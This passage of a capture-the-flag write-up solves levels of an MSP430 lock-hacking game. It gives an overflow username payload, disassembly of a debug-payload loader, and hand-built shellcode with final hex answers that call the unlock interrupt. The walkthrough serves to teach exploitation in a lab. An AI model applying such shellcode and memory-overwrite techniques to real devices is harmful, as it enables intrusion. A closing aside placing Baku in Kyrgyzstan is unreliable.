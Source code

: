 The password will stay the same, but the username will be modified to this (again, integer overflow to get `0x2434` which will be written backwards in memory):

Username: `313131313131313131313131313131315e453424fee2`

The first approach uses 7351 CPU cycles, while second and third — 7268 and 7267 CPU cycles respectively.

## Vancouver (LockIT 2, rev a.01)

From the overview: `The company is under new management. This series provides a debug interface for in-field debugging. This lock only accepts biometric and NFC inputs, and does not have a traditional password prompt.` There is also an example debug payload provided: `8000023041`. The debug payload consists of: 
- an address where the payload shall be written in memory (2 bytes); 
- the size of the payload (1 byte); 
- instructions to execute. 

The size of the payload is compared against a hardcoded value and must be `0x02` or bigger (`cmp` followed by `jc`) even if the *entered* payload itself is bigger/smaller:

```assembly
443e <main>
...
4474:  5a42 0224      mov.b	&0x2402, r10 ; the debug payload is written to 0x2400, 0x2402 holds the size of the payload
4478:  2a93           cmp	#0x2, r10 ; comparison against a hardcoded value, must be at least 2
447a:  052c           jc	$+0xc <main+0x48>
447c:  3f40 ba45      mov	#0x45ba "Invalid payload length", r15
4480:  b012 de44      call	#0x44de <puts>
4484:  e03f           jmp	$-0x3e <main+0x8> ; jump to start
4486:  3f40 d145      mov	#0x45d1 "Executing debug payload", r15
448a:  b012 de44      call	#0x44de <puts>
...
```

If the check for length has been passed, then it will use `memcpy` function to copy the amount of bytes (defined with size) of the payload to an address specified by the user. After that, it will perform a call to that address. On top of that, there is no `unlock_door` function, so shellcode is required to execute an interrupt function that is at `0x44a8`. 

Although it is possible to modify the payload to just our own code like this: `80000830127f00b012a844`, it will result in 19657 CPU cycles. Knowing the address where the debug payload resides (no ASLR + no memory protection), it would be better to craft a payload which would execute our code that is already inside a memory at `0x2400` region. Because of the requirement to copy at least two bytes that are valid instruction before our code is executed without overwriting `push #0x7f` and `call #0x44a8 <INT>` part, dummy instruction is also required.

The dummy instruction could be `mov.b r14, r14` which is represented as `0x4e4e`. So, the payload (actual instructions) starts at `0x2403` (byte `0x4e` at that address), the address where payload shall be copied is `0x2404` and the size of the payload is `0x2`, the `memcpy` will copy two bytes starting from `0x2403` to two bytes at `0x2404` which would result in overwrite (byte `0x2404` is overwritten with `0x4e` and simultaniously copied to `0x2405`). After that, the code is executed starting from `0x2404` which will result in the execution of the following code:

```assembly
mov.b	r14, r14
push	#0x7f
call	#0x44a8
```

The answer is: `2404024e000030127f00b012a844` (after copying the bytes, `0x2400` holds `2404024e4e4e30127f00b012a844` ). This approach results in 19604 CPU cycles.

## Offtop
Baku is located in Kyrgystan on the map.